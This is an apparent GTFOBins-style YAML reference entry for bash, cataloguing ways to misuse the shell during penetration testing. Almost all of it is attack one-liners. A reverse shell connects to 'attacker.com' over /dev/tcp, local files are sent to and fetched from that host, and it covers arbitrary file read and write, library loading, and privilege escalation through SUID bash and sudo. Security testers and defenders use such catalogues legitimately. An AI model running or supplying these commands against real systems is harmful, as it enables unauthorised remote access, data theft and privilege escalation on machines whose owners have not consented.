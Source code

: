 ```yaml
---
functions:
  shell:
    - code: bash
  reverse-shell:
    - description: Run `nc -l -p 12345` on the attacker box to receive the shell.
      code: |
        export RHOST=attacker.com
        export RPORT=12345
        bash -c 'exec bash -i &>/dev/tcp/$RHOST/$RPORT <&1'
  file-upload:
    - description: Send local file in the body of an HTTP POST request. Run an HTTP service on the attacker box to collect the file.
      code: |
        export RHOST=attacker.com
        export RPORT=12345
        export LFILE=file_to_send
        bash -c 'echo -e "POST / HTTP/0.9\n\n$(<$LFILE)" > /dev/tcp/$RHOST/$RPORT'
    - description: Send local file using a TCP connection. Run `nc -l -p 12345 > "file_to_save"` on the attacker box to collect the file.
      code: |
        export RHOST=attacker.com
        export RPORT=12345
        export LFILE=file_to_send
        bash -c 'cat $LFILE > /dev/tcp/$RHOST/$RPORT'
  file-download:
    - description: Fetch a remote file via HTTP GET request.
      code: |
        export RHOST=attacker.com
        export RPORT=12345
        export LFILE=file_to_get
        bash -c '{ echo -ne "GET /$LFILE HTTP/1.0\r\nhost: $RHOST\r\n\r\n" 1>&3; cat 0<&3; } \
            3<>/dev/tcp/$RHOST/$RPORT \
            | { while read -r; do [ "$REPLY" = "$(echo -ne "\r")" ] && break; done; cat; } > $LFILE'
    - description: Fetch remote file using a TCP connection. Run `nc -l -p 12345 < "file_to_send"` on the attacker box to send the file.
      code: |
        export RHOST=attacker.com
        export RPORT=12345
        export LFILE=file_to_get
        bash -c 'cat < /dev/tcp/$RHOST/$RPORT > $LFILE'
  file-write:
    - code: |
        export LFILE=file_to_write
        bash -c 'echo DATA > $LFILE'
    - description: This adds timestamps to the output file.
      code: |
        LFILE=file_to_write
        HISTIGNORE='history *'
        history -c
        DATA
        history -w $LFILE
  file-read:
    - description: It trims trailing newlines and it's not binary-safe.
      code: |
        export LFILE=file_to_read
        bash -c 'echo "$(<$LFILE)"'
    - description: The read file content is surrounded by the current history content.
      code: |
        LFILE=file_to_read
        HISTTIMEFORMAT=$'\r\e[K'
        history -r $LFILE
        history
  library-load:
    - code: bash -c 'enable -f ./lib.so x'
  suid:
    - code: "./bash -p"
  sudo:
    - code: sudo bash
---
```


